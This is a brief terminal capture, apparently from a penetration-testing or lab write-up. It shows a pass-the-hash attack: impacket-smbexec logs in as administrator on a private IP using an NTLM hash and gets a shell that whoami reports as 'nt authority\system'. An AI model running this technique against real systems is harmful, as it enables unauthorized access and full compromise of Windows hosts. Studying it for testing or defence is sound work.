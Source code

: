 ```
impacket-smbexec administrator@192.168.64.220 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit

```